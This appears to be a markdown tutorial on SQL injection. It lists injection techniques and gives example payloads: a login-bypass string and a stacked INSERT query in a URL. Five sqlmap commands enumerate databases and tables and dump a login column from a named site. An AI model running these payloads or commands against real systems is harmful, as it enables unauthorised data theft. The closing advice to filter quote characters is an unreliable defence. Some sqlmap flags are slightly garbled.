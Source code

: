 # SQL Injection

SQL injection attack consists of insertion of either a partial or complete SQL query via the data input from the client (Browser) to Application (Server).

## SQL Injection Technique

-	***Union Operator:*** can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
-	***Boolean:*** use Boolean condition(s) to verify whether certain conditions are true or false.
-	***Error based:*** this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
-	***Out-of-band:*** technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).
-	***Time delay:*** use database commands (e.g. sleep) to delay answers in conditional queries. It useful when attacker doesn’t have some kind of answer (result, output, or error) from the application

## Standard SQL Injection Testing

### Example 1 (classical SQL Injection):
Consider the following SQL query:
```
SELECT * FROM Users WHERE Username='$username' AND Password='$password'
$username = 1' or '1' = '1
$password = 1' or '1' = '1
The query will be:
SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1' 
```

### Example 2 (simple SELECT statement):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10
```

### Example 3 (Stacked queries):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10; INSERT INTO users (…)
```

![image](https://user-images.githubusercontent.com/65315090/129912785-f84232fc-a41a-4520-92fa-6c7dfe803e70.png)

![image](https://user-images.githubusercontent.com/65315090/129912819-124fbe54-d140-4133-8a99-0a3092ba3b15.png)

## Tools for SQL Injection

### [SQLMap](https://sqlmap.org/)

**Step-1:** Find Current Database name
  `sqlmap –u http://www.nayan.com/item_id=3 --level=5 --risk=3 --current-db --batch`

**Step-2:** List DBMS database
  `sqlmap –u http://www.nayan.com/item_id=3 --dbs`

**Step-3:** List Tables
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename --tables`
  
**Step-4:** List columns on tables
	`sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info --columns`
  
**Step-5:** List column data from columns
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info –C login --dump`

- More Information: https://www.owasp.org/index.php/SQL_Injection

## Prevent SQL injection
Filter out character like ' " - / \ ; NULL, etc. in all strings from:
- Input from users
- Parameters from URL
- Values from cookie

- Mitigation: https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet

